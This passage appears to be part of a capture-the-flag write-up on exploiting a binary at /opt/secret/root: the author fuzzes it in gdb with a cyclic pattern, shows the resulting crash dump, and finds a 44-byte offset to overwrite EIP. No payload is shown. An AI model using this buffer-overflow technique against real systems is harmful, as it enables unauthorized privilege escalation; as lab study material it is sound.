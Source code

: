 yeah definitelly `/opt/secret/root`

Oh cool the binary exploitation part

`gdb /opt/secret/root` (I need pwndbg too)

we run cyclic input to pass 50 characters when the program expects 32

```
r < <(cyclic 50)

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────────────────────────────────────────────────────────
EAX 0x1
EBX 0x0
ECX 0x1
EDX 0xf779b87c (_IO_stdfile_0_lock) ◂— 0
EDI 0xf779a000 (\_GLOBAL_OFFSET_TABLE_) ◂— mov al, 0x1d /_ 0x1b1db0 _/
ESI 0xf779a000 (_GLOBAL_OFFSET_TABLE_) ◂— mov al, 0x1d /_ 0x1b1db0 _/
EBP 0x6161616b ('kaaa')
ESP 0xffdfeb10 ◂— 0xf700616d /_ 'ma' _/
EIP 0x6161616c ('laaa')
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
Invalid address 0x6161616c

00:0000│ esp 0xffdfeb10 ◂— 0xf700616d /_ 'ma' _/
01:0004│ 0xffdfeb14 —▸ 0xffdfeb30 ◂— 0x1
02:0008│ 0xffdfeb18 ◂— 0x0
03:000c│ 0xffdfeb1c —▸ 0xf7600637 (**libc*start_main+247) ◂— add esp, 0x10
04:0010│ 0xffdfeb20 —▸ 0xf779a000 (\_GLOBAL_OFFSET_TABLE*) ◂— mov al, 0x1d /_ 0x1b1db0 _/
... ↓
06:0018│ 0xffdfeb28 ◂— 0x0
07:001c│ 0xffdfeb2c —▸ 0xf7600637 (**libc_start_main+247) ◂— add esp, 0x10
───────────────────────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────────────────────────────────────
► f 0 6161616c
f 1 f700616d
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
Program received signal SIGSEGV (fault address 0x6161616c)
```

heh...segfault at 0x6161616c...trying to overwrite EIP

`pwndbg> cyclic -l 0x6161616c`

```
44
```
